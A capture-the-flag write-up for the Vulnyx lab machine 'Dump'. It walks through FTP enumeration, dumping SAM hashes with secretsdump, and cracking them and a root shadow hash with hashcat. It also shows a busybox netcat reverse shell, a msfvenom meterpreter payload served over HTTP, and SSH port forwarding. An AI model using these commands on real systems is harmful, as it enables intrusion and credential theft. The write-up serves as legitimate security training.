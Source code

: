 ```yaml
---
title: Dump - Vulnyx Writeup
date: 2024-04-17 10:03
categories: [ctf, linux, easy]
tags: [vulnyx, linux, ctf, easy, dump]    # TAG names should be lowercase
---
```


# Machine Info

Dump was an easy rated Linux machine on Vulnyx, Involves dumping user hashes from SAM file and cracking it those hashes using hashcat for initial access. For root access, user dumper have writes to read the `/etc/shadow` file, which leaks the root user password hash which leads to get access to root user on the box.

![image](https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/23725db5-b59a-49c9-b380-f9e505ca745b)

# User 
## Scanning through Nmap

First of all we will go with nmap to scan the whole network and check for services running on the network. To scan the whole network and find all the open ports i use **-p-** used to scan the whole **65535** ports with **--min-rate 10000** to scan network faster from **nmap** and i found a list of open ports on the network and get only the open ports using different terminal tools like **cut**, **tr** etc. 

```shell
$ nmap -p- --min-rate 10000 192.168.190.134 -oN ini.txt && cat ini.txt | cut  -d ' ' -f1 | tr -d '/tcp' | tr '\n' ','
21,80, 4200
```

Now Let's run the depth scan on these specific ports using 

```bash
$ nmap -p21,80,4200 -sC -sV -A -T4 192.168.190.134 -oN scan.txt
```

- **-sC** is to run all the default scripts
- **-sV** for service and version detection
- **-A** to check all default things
- **-T4** for aggressive scan
- **-oN** to write the result into a specified file

```bash
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      pyftpdlib 1.5.4
| ftp-syst:
|   STAT:
| FTP server status:
|  Connected to: 192.168.190.134:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx   2 root     root         4096 Feb 09 10:46 .backup [NSE: writeable]
80/tcp   open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
4200/tcp open  ssl/http ShellInABox
| ssl-cert: Subject: commonName=dump
| Not valid before: 2024-02-09T11:53:57
|_Not valid after:  2044-02-04T11:53:57
|_ssl-date: TLS randomness does not represent time
|_http-title: Shell In A Box
```

Through Nmap, we found three open ports, **21 FTP** with anonymous login allowed, port **80 HTTP** web and port **4200 ssl/HTTP** also web. Becasue we are allowed to login as anonymous user on FTP, lets dive into it and check if we found any useful file or folder their.

### 21 FTP

After login to FTP using anonymous credientials, we found a **.backup** directory. after looking into the **.backup** directory, we found two files **sam.bak** and **system.bak**. 
So what are **sam** and **system** files, **sam** file is a file in windows that holds the **usernames** and **NTLM** password hashes of local users on system. This is file is encrypted and it's key is stored in a registry file called **system**. You can learn more about it [here](https://juggernaut-sec.com/dumping-credentials-sam-file-hashes/)

<img  alt="Pasted image 20240415093027" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/44353a42-8d79-4d12-af4e-e1002c4abfea">

So in our case we have both system and sam file, lets try to dump the password hashes from it, we can use tool called secretsdump.py from impacket toolkit for that purpose
**SecretsDump.py** is a Python tool by Impacket that can extract secrets from targets. **SecretsDump.py** performs various techniques to dump hashes from the remote machine without executing any agent there. For **SAM** and **LSA** Secrets (including cached creds) it tries to read as much as it can from the **registry** and then saves the hives in the target system `(%SYSTEMROOT%\Temp dir)` and reads the rest of the data from there. For **NTDS.dit** it uses the **Volume Shadow Copy Service** to read NTDS.dit directly from the disk or it can use the parser module to read NTDS.dit files from a copy.
secretsdump.py dump **usernames** and their **password** hashes for us, if we were facing a windows machine, then we can perform **pass-the-hash** attack to gain access on the machine, without decrypting it. But, because we are on Linux machine, we have to decrypt it.

```bash
$ secretsdump.py -sam sam.bak -system system.bak LOCAL
```

- **-sam** to parse sam file
- **-system** to parse system file
- **LOCAL** because we parse these files locally

<img alt="Pasted image 20240415094024" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/7e50225e-4f01-474a-9f68-80f987dd230b">

```NTLM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:45ab968b011c0b6cfd1e9e1b30ff40cc:916da1881680fcb38f2ce951f666d6be:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:d0d506281c0dbfe0a16f57e412411d37:::
dumper:1004:ebd1b59f4f5a6843aad3b435b51404ee:7324322d85d3714068d67eccee442365:::
admin:1005:7cc48b08335cd858aad3b435b51404ee:556a8f7773e850d4cf4d789d39ddaca0:::
```

After saving these hashes let's fire up hashcat to perform dictionary attack to decrypt these hashes.
Hashcat is **a password cracking tool used for licit and illicit purposes**. Hashat is a particularly fast, efficient, and versatile hacking tool that assists brute-force attacks by conducting them with hash values of passwords that the tool is guessing or applying

```bash
$ hashcat -m 1000 hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

- **-m** to specify module number of NTLM hash which is 1000 in our case

<img  alt="Pasted image 20240415095409" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/292758d4-c28c-4db8-9438-a3c219c2d6f0">

We were successfully able to crack the password of user **admin** and **dumper**

```passwords
dumper:7324322d85d3714068d67eccee442365:1dumper
admin:556a8f7773e850d4cf4d789d39ddaca0:blabla
```

### 80 HTTP

On port 80 their is a simple apache default page is runnig. feroxbuster also didn't found any useful path their.

<img  alt="Pasted image 20240415100300" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/4959a089-4f9d-47ce-8e36-f7d7b1111be4">

### 4200 HTTPs

On TCP port 4200, there is a some kind of login page is working called dump login.

<img alt="Pasted image 20240415095754" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/9ea8608c-b05b-41c0-a7b6-5e2cbb996bf2">

I tried to login to it using admin credentials but admin credentials didn't worked their, then I tried to login using dumper credentials and it worked and we got a shell on the box as dumper user. Their is also our user flag is present.

<img  alt="Pasted image 20240415100118" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/20f35516-de07-4c82-abaa-1f1241f6d4b7">

Let's get shell on our box using **busybox** and make it stable.

```bash
$ busybox nc 192.168.190.129 9001 -e sh
$ nc -lvnp 9001
$ ptyhon3 -c "import pty; pty.spawn('/bin/bash')"
$ export TERM=xterm
```


# Privilege Escalation

Linpeas reveals that we have a read access to `/etc/shadow` file, a file that contains user's passwords hashes on Linux system. 

<img  alt="Pasted image 20240416102724" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/f6cf35b5-0896-4e50-958a-fc6f29057a75">

Lets, copy root hash and try to break it using hashcat on our local machine.

```bash
$ hashcat -m 1800 root-hash rockyou.txt

# Cracked Hash
$6$jzcdBmCLz0zF2.b/$6sok07AjDc3TN3oeI/NqrdZ6NSQly3ADW6lvs3z5q.5GDqsCypL8WtL7ARhzDcdYgukakXWeNbiIP7GyigCse/:shadow123
```

Linpease also discover that port **22 ssh** was running locally on the machine. I decided to forward it to my attacker machine. 

<img  alt="Pasted image 20240416103403" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/6b2026cc-6e0a-493d-a7ee-1ca975946436">

First, lets get a shell on **metasploit** and then perform port forwarding, there are also  many other ways to perform port forwarding but the metasploit one is more simple and easy.
To get a shell on metasploit, first create a elf file using **msfvenom** and then deliver it on victim machine using python3 server.

```bash
$ msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.190.133 LPORT=4444 -f elf -o shel.elf

# Python server
$ python3 -m http.server 80
```

<img alt="Pasted image 20240415103604" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/a67df831-57e4-413c-a994-9ece495be28b">

After that run a listener on metasploit using

```bash
$ use exploit/multi/handler
$ set payload linux/x64/meterpreter_reverse_tcp
$ set LHOST=<attacker IP>
$ set LPORT=<that you specified in msfvenom payload>
$ run
```

Now whenever someone will run our **shel.elf** file, we will receive a shell back on our metasploit listener.

<img  alt="Pasted image 20240415104043" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/8bde988f-b67e-42e1-b0d7-c8fabebaed39">

Now Lets forward our port 22 to our attacker machine using:

```bash
$ portfwd -l 101 -p 22 -r 127.0.0.1
```

- **-l** for local port
- **-p** for remote port
- **-r** remote host

<img  alt="Pasted image 20240416104103" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/4f3d40ad-0603-4c03-9883-4627d124bfe7">

Now let's get a shell as root using ssh and grab our root.txt.

```bash
$ ssh root@127.0.0.1 -p 101
```

<img  alt="Pasted image 20240416104235" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/f26a30e0-d44f-4d6d-b80e-9ce33d001f57">


# Happy Hacking ❤

